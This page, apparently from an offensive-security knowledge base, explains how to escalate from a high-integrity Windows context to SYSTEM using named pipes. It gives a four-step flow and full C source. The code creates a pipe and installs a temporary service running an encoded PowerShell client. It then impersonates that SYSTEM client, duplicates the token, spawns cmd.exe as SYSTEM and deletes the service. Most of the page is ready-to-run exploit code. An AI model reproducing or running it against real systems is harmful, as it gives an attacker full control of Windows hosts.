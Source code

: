 # From High Integrity to SYSTEM with Name Pipes

**Code flow:**

1. Create a new Pipe
2. Create and start a service that will connect to the created pipe and write something. The service code will execute this encoded PS code: `$pipe = new-object System.IO.Pipes.NamedPipeClientStream("piper"); $pipe.Connect(); $sw = new-object System.IO.StreamWriter($pipe); $sw.WriteLine("Go"); $sw.Dispose();`
3. The service receive the data from the client in the pipe, call ImpersonateNamedPipeClient and waits for the service to finish
4. Finally, uses the token obtained from the service to spawn a new _cmd.exe_

```c
#include <windows.h>
#include <time.h>

#pragma comment (lib, "advapi32")
#pragma comment (lib, "kernel32")

#define PIPESRV "PiperSrv"
#define MESSAGE_SIZE 512

int ServiceGo(void) {

    SC_HANDLE scManager;
    SC_HANDLE scService;

    scManager = OpenSCManager(NULL, SERVICES_ACTIVE_DATABASE, SC_MANAGER_ALL_ACCESS);

    if (scManager == NULL) {
        return FALSE;
    }

    // create Piper service
    scService = CreateServiceA(scManager, PIPESRV, PIPESRV, SERVICE_ALL_ACCESS, SERVICE_WIN32_OWN_PROCESS, 
                            SERVICE_DEMAND_START, SERVICE_ERROR_NORMAL,
                            "C:\\Windows\\\System32\\cmd.exe /rpowershell.exe -EncodedCommand JABwAGkAcABlACAAPQAgAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAFAAaQBwAGUAcwAuAE4AYQBtAGUAZABQAGkAcABlAEMAbABpAGUAbgB0AFMAdAByAGUAYQBtACgAIgBwAGkAcABlAHIAIgApADsAIAAkAHAAaQBwAGUALgBDAG8AbgBuAGUAYwB0ACgAKQA7ACAAJABzAHcAIAA9ACAAbgBlAHcALQBvAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ASQBPAC4AUwB0AHIAZQBhAG0AVwByAGkAdABlAHIAKAAkAHAAaQBwAGUAKQA7ACAAJABzAHcALgBXAHIAaQB0AGUATABpAG4AZQAoACIARwBvACIAKQA7ACAAJABzAHcALgBEAGkAcwBwAG8AcwBlACgAKQA7AA==", 
                            NULL, NULL, NULL, NULL, NULL);

    if (scService == NULL) {
        //printf("[!] CreateServiceA() failed: [%d]\n", GetLastError());
        return FALSE;
    }

    // launch it
    StartService(scService, 0, NULL);

    // wait a bit and then cleanup
    Sleep(10000);
    DeleteService(scService);

    CloseServiceHandle(scService);
    CloseServiceHandle(scManager);    
}

int main() {

    LPCWSTR sPipeName = "\\\\.\\pipe\\piper";
    HANDLE hSrvPipe;
    HANDLE th;
    BOOL bPipeConn;
    char pPipeBuf[MESSAGE_SIZE];
    DWORD dBRead = 0;

    HANDLE hImpToken;
    HANDLE hNewToken;
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;

    // open pipe
    hSrvPipe = CreateNamedPipeA(sPipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_MESSAGE | PIPE_WAIT, 
                                PIPE_UNLIMITED_INSTANCES, 1024, 1024, 0, NULL);

    // create and run service
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) ServiceGo, NULL, 0, 0);

    // wait for the connection from the service
    bPipeConn = ConnectNamedPipe(hSrvPipe, NULL);
    if (bPipeConn) {
        ReadFile(hSrvPipe, &pPipeBuf, MESSAGE_SIZE, &dBRead, NULL);

        // impersonate the service (SYSTEM)
        if (ImpersonateNamedPipeClient(hSrvPipe) == 0) {
            return -1;
        }

        // wait for the service to cleanup
        WaitForSingleObject(th, INFINITE);

        // get a handle to impersonated token
        if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hImpToken)) {
                return -2;
            } 

        // create new primary token for new process
        if (!DuplicateTokenEx(hImpToken, TOKEN_ALL_ACCESS, NULL, SecurityDelegation,
                            TokenPrimary, &hNewToken)) {
                return -4;
        }

        //Sleep(20000);
        // spawn cmd.exe as full SYSTEM user
        ZeroMemory(&si, sizeof(si));
        si.cb = sizeof(si);
        ZeroMemory(&pi, sizeof(pi));
        if (!CreateProcessWithTokenW(hNewToken, LOGON_NETCREDENTIALS_ONLY, NULL, L"cmd.exe", 
                                    NULL, NULL, NULL, (LPSTARTUPINFOW)&si, &pi)) {
            return -5;
        }

        // revert back to original security context
        RevertToSelf();

    }

    return 0;
}
```

